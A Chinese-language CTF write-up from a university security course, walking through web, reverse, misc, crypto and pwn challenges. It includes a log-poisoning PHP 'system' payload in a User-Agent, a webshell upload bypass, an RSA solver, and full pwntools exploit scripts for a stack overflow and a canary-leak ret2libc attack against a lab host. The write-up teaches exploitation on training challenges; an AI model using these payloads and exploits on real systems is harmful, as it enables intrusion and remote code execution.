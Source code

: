 ```yaml
---
title: HUST - 网安实践4结课CTF试题
image: "https://i.postimg.cc/sXXV0rFM/7c1252b73d14f048c18e847d38cd7a12.jpg"
published: 2024-12-19
description: 2022届网安实践4CTF试题
tags: [CTF, HUST]
category: CTF
draft: false
---
```


由于课程关闭，无法进行复现，因此主要使用语言描述。

## Web1-简单文件上传

看源码发现过滤了php等关键词，但是处理的时候只删除了一次，所以可以进行双写绕过。传入木马文件后蚁剑连接得到flag。

## Web2-文件包含进阶

通过 POST 请求传入 hust=/var/log/apache2/access.log，设置 User-Agent 为 \<?php system("ls")?\>成功看到回显，再次传入\<?php system("cat fl4g.php");?\>，得到flag。

## Reverse1-我的ida怎么坏了

课程原题，不再重复。

## Reverse2-带衣服的程序

看了一眼，发现套了upx壳，使用upx -d脱壳。

## MISC1-我的报告呢

根据提示是pdf文件，在流量包中找到文件，此外还在myname里找到了pdf的密码。打开pdf后没有啥有效信息，一开始以为是wbStego4.3open加密，结果弄不出来，最后把它转成了word后，能得到flag。

![image-2024120215033368](./assets/image-2024120215033368.png)

## MISC2-BB空间

伪加密，修正后解压得到二维码，依据各个文件名确定位置拼出二维码，扫描后得到一串数字，结合题目，在bilibili中搜索，找到一个用户，定位到他的最新视频。发现在视频简介中说明了视频中每个句子对应的符号。下载音频用audacity比对摘写，得到一串摩斯密码，解码后得到flag。

## Crypto1-奇怪的RSA

写完以后跑了一下发现有问题，说是没有逆，猜测是ehephi不互素了，验证了一下发现e和q-1不互素。改一下代码，转化到模p下来求解。

```python
# coding=gbk
import gmpy2
from Crypto.Util.number import *
from math import ceil, sqrt
from random import choice
from gmpy2 import *
e = 65537
p = 7861284553623919323985859832007323477428670056827930254749054233285002288342251190742960221895692365421571559655657906508077200676209583363642503410091987
q = 12190036856294802286447270376342375357864587534233715766210874702670724440751066267168907565322961270655972226761426182258587581206888580394726683112820379
c = 82847779812851057890043530756832889487859832046106654912667214872414017036311911272053848097280235944007447512360040509400105818809700630697569934731411705662409382305951636397690516111461818016905840116265739235873533920070957680510890443904586797027770509200983712548635748894266511224103615999307792279118
n = p*q
# _gcd = gcd(e,(p-1)*(q-1)) # 65537
gcd_q = gcd(e,p-1) # 1

d = inverse(e,p-1)
m = pow(c,d,p)
print(long_to_bytes(int(m)))
```

## Crypto2-AES加密

## PWN1-ret2text

常规栈溢出，程序也给了system和/bin/sh。

```python
from pwn import *
context(arch='amd64',os='linux',log_level='debug')

#p = process("./2pwn.bin")
p = remote('172.17.0.15',17831)

binsh = 0x4023FF
system = 0x401B21
pop_rdi_ret = 0x401c73

payload = b'a'*72+p64(pop_rdi_ret)+p64(binsh)+p64(system)
p.sendline(payload)

p.interactive()
```



## PWN2-canary

程序没有给system或/bin/sh，也没说libc版本。所以要利用puts泄露libc版本和libc基址。

```python
from pwn import *
from LibcSearcher import *
context(arch='amd64',os='linux',log_level='debug')

p = process("./pwn.bin")
elf = ELF("./pwn.bin")
#p = remote('172.17.0.15',14375)

pop_rdi = 0x401343
ret=0x40101a
binsh = 0x404058
system=0x4010b0

payload1=b'a'*72
p.sendlineafter('name?',payload1)

p.recvuntil(b'a'*72)
canary=u64(p.recv(8))-0xa

print(hex(canary))

payload = cyclic(72)+p64(canary)+p64(0)+p64(pop_rdi)+p64(elf.got["puts"])+p64(elf.plt["puts"])+p64(elf.sym["main"])

p.sendlineafter('stack!',payload)

puts = u64(p.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
print(hex(puts))

libc=LibcSearcher("puts",puts)

libcbase=puts-libc.dump('puts')
system=libcbase+libc.dump('system')
binsh=libcbase+libc.dump('str_bin_sh')
print(hex(system))
print(hex(binsh))

payload=cyclic(72)+p64(canary)+p64(0)+p64(ret)+p64(pop_rdi)+p64(binsh)+p64(system)
p.sendlineafter('name?',b'1')
p.sendlineafter('stack!',payload)
p.interactive()
```

